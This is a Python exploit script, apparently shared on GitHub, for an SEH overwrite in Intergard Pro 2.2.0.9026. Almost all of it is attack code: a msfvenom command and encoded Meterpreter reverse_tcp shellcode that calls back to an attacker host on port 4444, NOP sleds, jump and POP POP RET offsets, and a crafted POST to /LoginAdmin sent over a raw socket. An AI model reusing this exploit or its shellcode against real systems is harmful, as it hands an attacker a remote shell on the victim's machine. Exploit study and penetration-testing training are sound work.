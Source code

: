 # Created by: Uday Mittal (Yaksas CSC)

# This code exploits the SEH overwrite vulnerability in Intergard Pro 2.2.0.9026. Though it's an old vulnerability and many exploits exist for it, I created this from scratch.


import socket

host ="192.168.0.130"
port = 18881


# bad characters: 0x00, 0x25, 0x26, 0x2F, 0x3D, 0x3F, 0x5C
# mmsfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.188 LPORT=4444 -f python -b '\x00,\x25,\x26,\x2F,\x3D,\x3F,\x5C'
# POP POP, RET: 0x0048b539
# Short Jump: jmp $-48 \xEB\xCE
# Long Jump: jmp $-500 \xe9\x07\xFE\xFF\xFF

buf =  b""
buf += b"\xdb\xc8\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1\x59\xbf\xe0"
buf += b"\xab\x9d\xe4\x83\xc6\x04\x31\x7e\x15\x03\x7e\x15\x02"
buf += b"\x5e\x61\x0c\x4d\xa1\x9a\xcd\x31\x2b\x7f\xfc\x63\x4f"
buf += b"\x0b\xad\xb3\x1b\x59\x5e\x38\x49\x4a\x6f\xc1\x61\xc5"
buf += b"\xc5\x1b\xf5\x5b\xf2\x52\xc9\x30\x3e\xf5\xb5\x4a\x13"
buf += b"\xd5\x84\x84\x66\x14\xc0\x52\x0c\xf9\x9c\x33\x65\x57"
buf += b"\x31\x37\x3b\x6b\x30\x97\x37\xd3\x4a\x92\x88\xa7\xe6"
buf += b"\x9d\xd8\xcc\xaf\xbd\x88\x59\x07\xa6\x29\x8e\x1d\x1f"
buf += b"\x5d\x0c\x57\x91\x61\xe7\x53\x5a\x9c\x21\xaa\x9c\x5e"
buf += b"\x02\xc0\xb0\x60\x5b\xe3\x28\x17\x97\x17\xd4\x20\x6c"
buf += b"\x65\x02\xa4\x72\xcd\xc1\x1e\x56\xef\x06\xf8\x1d\xe3"
buf += b"\xe3\x8e\x79\xe0\xf2\x43\xf2\x1c\x7e\x62\xd4\x94\xc4"
buf += b"\x41\xf0\xfd\x9f\xe8\xa1\x5b\x71\x14\xb1\x04\x2e\xb0"
buf += b"\xba\xa7\x39\xc4\x43\x38\x46\x98\xd3\xf4\x8b\x23\x23"
buf += b"\x93\x9c\x50\x11\x3c\x37\xff\x19\xb5\x91\xf8\x28\xd1"
buf += b"\x21\xd6\x92\xb2\xdf\xd7\xe2\x9b\x1b\x83\xb2\xb3\x8a"
buf += b"\xac\x59\x44\x32\x79\xf7\x4e\xa4\x42\xaf\x4f\x88\x2b"
buf += b"\xad\x4f\xe1\xf7\x38\xa9\x51\x58\x6a\x66\x12\x08\xca"
buf += b"\xd6\xfa\x42\xc5\x09\x1a\x6d\x0c\x22\xb1\x82\xf8\x1a"
buf += b"\x2e\x3a\xa1\xd1\xcf\xc3\x7c\x9c\xd0\x48\x74\x60\x9e"
buf += b"\xb8\xfd\x72\xf7\xde\xfd\x8a\x08\x4b\xfd\xe0\x0c\xdd"
buf += b"\xaa\x9c\x0e\x38\x9c\x02\xf0\x6f\x9f\x45\x0e\xee\xa9"
buf += b"\x3e\x39\x64\x95\x28\x46\x68\x15\xa9\x10\xe2\x15\xc1"
buf += b"\xc4\x56\x46\xf4\x0a\x43\xfb\xa5\x9e\x6c\xad\x1a\x08"
buf += b"\x05\x53\x44\x7e\x8a\xac\xa3\xfc\xcd\x52\x31\x2b\x76"
buf += b"\x3a\xc9\x6b\x86\xba\xa3\x6b\xd6\xd2\x38\x43\xd9\x12"
buf += b"\xc0\x4e\xb2\x3a\x4b\x1f\x70\xdb\x4c\x0a\xd4\x45\x4c"
buf += b"\xb9\xcd\x76\x37\xb2\xf2\x77\xc8\xda\x96\x78\xc8\xe2"
buf += b"\xa8\x45\x1e\xdb\xde\x88\xa2\x58\xd0\xbf\x87\xc9\x7b"
buf += b"\xbf\x94\x0a\xae"



payload = "\x90" * 2345 + buf + "\x90" * 10 + "\xe9\x07\xFE\xFF\xFF" + "\x90" * 35 + "\x90\x90\xEB\xCE"  +  "\x2E\x85\x43\x00" + "C" * 300


webRequest = ""
webRequest += "POST /LoginAdmin HTTP/1.1\r\n"
webRequest += "Host: 192.168.0.130:18881\r\n"
webRequest += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0\r\n"
webRequest += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n"
webRequest += "Accept-Language: en-US,en;q=0.5\r\n"
webRequest += "Accept-Encoding: gzip, deflate\r\n"
webRequest += "Content-Type: application/x-www-form-urlencoded\r\n"
webRequest += "Content-Length: 617\r\n"
webRequest += "Origin: http://192.168.0.130:18881\r\n"
webRequest += "Connection: close\r\n"
webRequest += "Referer: http://192.168.0.130:18881/\r\n"
webRequest += "Upgrade-Insecure-Requests: 1\r\n\r\n"
webRequest += "Password=test&Redirect=%23%23%23REDIRECT%23%23%23&NoJs="+payload+"&LoginButtonName=Login\r\n"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(webRequest)
s.close()
